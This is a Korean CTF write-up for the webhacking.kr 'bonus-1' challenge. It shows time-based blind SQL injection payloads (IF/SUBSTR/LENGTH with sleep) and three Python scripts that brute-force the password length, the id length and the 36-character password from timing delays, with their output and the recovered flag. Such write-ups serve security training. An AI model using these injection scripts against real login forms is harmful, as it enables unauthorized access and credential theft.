






# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

***


# **Description**




# **Write-Up**

view-source도 없다. 단서를 직접 찾아야 한다. 먼저 id에 ' or sleep(2) -- 와 pw에 123을 넣으면 SQLi가 된다는 것을 확인할 수 있다. (pw도 마찬가지)



id나 pw에 select라는 문자열이 들어가면 필터링된다.



또한, id나 pw 중 하나라도 값이 없다면 그냥 새로고침되는 듯 하다.


id가 guest, pw가 guest로 유추해서 시도해보았는데 login success라고 나온다.



다행이 sleep이 걸리는 것으로 보아 쓰기 편한건 필터링 되지 않는 듯하다.

    id : ' or IF(SUBSTR(id, 1, 1)='g', sleep(2), sleep(1)) -- 



패스워드 길이를 알아보자.

```python
import urllib.request
import time

for i in range(1, 50):
    id      = urllib.parse.quote('\' or IF(LENGTH(pw)={}, sleep(2), sleep(0)) -- '.format(i))
    pw      = '123'
    url     = 'https://webhacking.kr/challenge/bonus-1/index.php?id='+id+'&pw='+pw
    header  = {'Cookie':'PHPSESSID=l7ql6t9himbquio8gdh5s61f22'}
    request = urllib.request.Request(url, headers=header)
    s_time  = time.time()
    response= urllib.request.urlopen(request)
    result  = response.read().decode()
    e_time  = time.time()
    delay   = round(e_time - s_time)
    if delay >= 2: print('password length : {}'.format(i))

[Output]
password length : 5
password length : 36
```

50까지의 길이를 가진 패스워드는 2개가 나오는데 5자리 수는 아무래도 guest인것 같고, 36자리 수가 알아내야 하는 패스워드임을 유추할 수 있다.

다음으로 아이디 길이를 뽑아보자.

```python
import urllib.request
import time

for i in range(1, 50):
    id      = urllib.parse.quote('\' or IF(LENGTH(id)={}, sleep(2), sleep(0)) -- '.format(i))
    pw      = '123'
    url     = 'https://webhacking.kr/challenge/bonus-1/index.php?id='+id+'&pw='+pw
    header  = {'Cookie':'PHPSESSID=l7ql6t9himbquio8gdh5s61f22'}
    request = urllib.request.Request(url, headers=header)
    s_time  = time.time()
    response= urllib.request.urlopen(request)
    result  = response.read().decode()
    e_time  = time.time()
    delay   = round(e_time - s_time)
    if delay >= 2: print('id lengthdk : {}'.format(i))

[Output]
id length : 5
```

유추해봤을때, admin, guest일 것같다. 패스워드를 찾아낸 뒤, admin으로 로그인이 안되면 id도 찾는 식으로 가본다. 먼저 패스워드를 알아내자.

```python
import urllib.request
import string
import time

password  = ''
for i in range(1, 37):
    for c in string.printable.strip():
        id      = urllib.parse.quote('\' or IF(SUBSTR(pw, {}, 1)=\'{}\' and LENGTH(pw)=36, sleep(2), sleep(0)) -- '.format(i, c))
        pw      = '123'
        url     = 'https://webhacking.kr/challenge/bonus-1/index.php?id='+id+'&pw='+pw
        header  = {'Cookie':'PHPSESSID=l7ql6t9himbquio8gdh5s61f22'}
        request = urllib.request.Request(url, headers=header)
        s_time  = time.time()
        response= urllib.request.urlopen(request)
        result  = response.read().decode()
        e_time  = time.time()
        delay   = round(e_time - s_time)
        if delay >= 2:
            password  += c
            break
print('password : {}'.format(password))

[Output]
password : there_is_no_rest_for_the_white_angel
```

id를 admin으로 넣고 찾은 pw를 넣으면 점수를 획득할 수 있다.

